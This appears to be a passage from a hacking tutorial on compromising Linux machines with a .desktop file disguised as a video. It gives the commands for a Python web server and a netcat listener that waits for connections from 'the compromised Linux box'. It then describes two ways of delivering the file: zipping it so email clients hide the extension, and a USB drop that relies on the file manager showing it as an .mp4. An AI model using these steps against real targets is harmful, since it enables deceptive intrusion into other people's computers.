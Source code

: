 ### Start the Python3 Server & Netcat Listener

Python3 will create a web server on port 80, making the `real_video.mp4` in the directory available to everyone on the network. The Python3 terminal must remain open until the target clicks on the `fake_video.desktop` file. 

```
$ python3 -m http.server 80
```

Open a new terminal window, start the `nc` listener to intercept connections from the compromised Linux box.

```
$ nc -vv -l -p 1234
```

### Deliver the Nefarious File

With the Python3 and Netcat servers setup, the attacker can deliver `fake_video.desktop` to the target. I've outlined two simple delivery methods below, but this is far from an exhaustive list of attack vectors. Other tactics are possible if the attacker knows more about the target.

###### Option 1: Email Attachment

Email is a good file sharing vector. If the target's operating system has been discovered or it's known that Linux systems are deployed in the workplace email delivery will be an ideal option. In this scenario, compressing the file(s) with `zip` is necessary to bypass email clients and web browsers from displaying the .desktop file extension when sharing the file.

It may be desirable to include many .desktop payloads in the ZIP sent to the target for a convincing social engineering attack. Or, perhaps mixing real files in with fake_videos.

First, make sure `zip` is installed, as it isn't included in all versions of Kali.

```
$ apt-get install zip
```

While in the `videos/` directory, use `zip` to recursively compress all of the files.

```
$ zip -r videos.zip ../videos/

  adding: ../videos/ (stored 0%)
  adding: ../videos/real_video.mp4 (deflated 0%)
  adding: ../videos/fake_video.desktop (deflated 33%)
```

###### Option 2: USB Drop

Readers may know [I'm a fan of USB drop attacks](/0x01). Nearly 50% of all USBs found in the wild are picked up, inserted into a computer, and inspected by unsuspecting targets. The lone USB is an excellent attack vector as it specifically targets the computer — an email attachment may be opened using the target's smartphone. When the target inserts the USB drive into his/her machine, Nemo will automatically attempt to mount it and display the `fake_video.desktop` as "fake_video.mp4" — so compressing the files won't be necessary.

To perform a USB drop attack, copy the `fake_video.desktop` to the drive.

```
$ cp /tmp/pythonServer/videos/*.desktop /media/root/USB\ NAME\ HERE/
```

---

{{ site.wht_credit }}
